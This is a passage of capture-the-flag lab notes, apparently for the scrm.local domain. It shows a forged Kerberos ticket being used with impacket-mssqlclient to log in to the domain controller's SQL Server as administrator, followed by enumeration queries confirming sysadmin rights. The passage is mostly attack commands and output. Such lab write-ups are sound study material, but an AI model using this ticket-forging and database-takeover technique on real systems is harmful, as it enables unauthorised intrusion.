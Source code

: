 ```bash
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in sqlsvc.ccache  <- I should add Administrator at the bottome of the previous command since Admin.ccache instead

impacket-mssqlclient -k scrm.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
impacket-mssqlclient -k dc1.scrm.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)>
```

### MSSQL Enum
```bash
SQL (SCRM\administrator  dbo@master)> SELECT SYSTEM_USER;
                     
------------------   
SCRM\administrator   

SQL (SCRM\administrator  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   

SQL (SCRM\administrator  dbo@master)> SELECT CURRENT_USER;
      
---   
dbo   

SQL (SCRM\administrator  dbo@master)> select @@version;
                                                                                                                                                                                                                           
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
   

SQL (SCRM\administrator  dbo@master)> select user_name();
      
---   
dbo   

SQL (SCRM\administrator  dbo@master)> SELECT name FROM master.dbo.sysdatabases;
name         
----------   
master       

```